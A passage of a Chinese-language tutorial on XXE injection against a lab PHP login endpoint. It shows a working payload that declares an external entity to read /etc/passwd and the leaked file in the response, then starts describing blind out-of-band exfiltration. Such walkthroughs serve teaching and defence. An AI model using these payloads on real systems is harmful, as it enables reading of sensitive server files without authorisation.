 测试

```
POST http://192.168.1.28/xmlinject.php


<creds>
	<user>admin</user>
	<pass>mypass</pass>
</creds>
```

响应

`You have logged in as user admin`

使用外部实体来加载本地文件

```
POST http://192.168.1.28/xmlinject.php

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>
```

这里声明了一个外部实体 `xxe`，值为 `file:///etc/passwd`，即本地 `/etc/passwd` 文件的内容

`<!ENTITY xxe SYSTEM "file:///etc/passwd" >`
然后在元素 user 内引用了该实体 &xxe;

`<user>&xxe;</user>`

请求响应

```
You have logged in as user root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
....
```

命令执行因为默认都没有装 expect module, 就不进行测试了

## 利用

在之前的例子中，结果被作为响应的一部分被返回了，但如果遇到没有回显的情况，就需要使用其他办法。

因为无法直接将要读取的文件内容发送到服务器，所以需要通过变量的方式，先把要读取的文件内容保存到变量中，然后通过 URL 引用外部实体的方式，在 URL 中引用该变量，让文件内容成为 URL 的一部分(如查询参数)，然后通过查看访问日志的方式来获取数据。
